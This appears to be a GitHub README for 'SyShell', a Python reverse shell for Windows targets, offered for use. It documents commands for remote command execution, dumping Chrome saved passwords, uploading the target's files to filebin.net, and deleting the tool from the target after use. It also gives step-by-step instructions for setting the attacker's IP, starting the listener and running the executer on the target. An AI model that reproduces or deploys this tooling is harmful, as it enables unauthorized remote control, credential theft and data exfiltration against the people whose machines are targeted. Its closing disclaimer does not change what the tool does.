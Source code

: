 # SyShell
⚒️ A simple but fully working reverse shell with built-in commands made in Python. ⚒️

## About
SyShell is a reverse shell that offers pre-built commands while also offering complete control over the machine, specifically built for `Windows` systems (Executer). The listener (Syshell_listener.py) has been tested on both Windows and Linux, both work perfectly. 

![SyShell Menu.](images/syshell1.jpg)


## Commands
- `exit` : Exits.
- `getip`: Retrieves general location.
- `sysinfo` : Retrieves System informations.
- `filebin` :  Instead of DIRECTLY uploading from the windows machine to the host machine, we're using: https://filebin.net/ , which is an online free file upload server. Thanks to their API we are able to upload files by performing post requests. **Make sure you create a bin before using this command. Navigate to https://filebin.net/api ----> POST / Upload a file to a bin --> click "Try it out"** Then in the **bin** input, create your own custom ID, upload a test file, then  click **Execute**. Finally you can navigate to your bin by simply visiting `filebin.net/YOUR_BIN_ID` , and you now can upload files in the windows machine from your host machine using the following command:
```
filebin <YOUR BIN ID> <YOUR FILE NAME>
```
- `!browser` : Places Chrome saved passwords in a file `ShellNone_FileStandards_Chrome.txt`. 
- `cmd` : cmd offers the ability to execute cmd commands from host machine.
- `exitcmd` : To Exit cmd mode.
- `clear` : Clears The Screen.
- `!!terminus` : **Exits the session and deletes itself from the target machine.**
- `echo` : `echo <string>`
- `upload` : Currently unavailable / Doesn't work yet.
  
![SyShell Menu.](images/help.jpg)


# Deploy

First install required packages.
## Requirements
There's 2 ways to install the required packages / libraries:

1. Simply run : 
```shell
chmod +x build.sh && ./build.sh
```
2. Just use pip:
```py
pip install -r requirements.txt
```
Either will work.

Next step is to deploy.
## Start
- Firstly, start the listener on your host machine, by using: 
```py
python SyShell_Receiver.py
```
OR
```py
python3 SyShell_Receiver.py
```
- Secondly, update your IP address ( Host Machine's Address. ) , you could just run `ifconfig` (linux) or `ipconfig` on windows, and get your host's machine ip address then either run: 
```bash
chmod +x host_ip.sh && ./host_ip.sh <YOUR HOST MACHINE IP ADDRESS>
```
OR: Simply manually open up `SyShell_executer.py` and change (line 26) : 
```
host = 'HOST MACHINE IP ADDRESS'  # HOST MACHINE IP
```
- Finally, on your target machine, run `python SyShell_executer.py` or `python3 SyShell_executer.py` and you should receive a connection back:

![SyShell Menu.](images/shell.png)


# Disclaimer
Use SyShell at your own risk. The author of SyShell does not take any responsibility for any damages or misuse caused by the software. SyShell is provided as-is, without any warranties. It is expected that users of SyShell will utilize (use) it responsibly and ethically, adhering to applicable laws and regulations. By using SyShell, you agree to accept all risks associated with its use. Always ensure that you have proper authorization before using SyShell on any system.
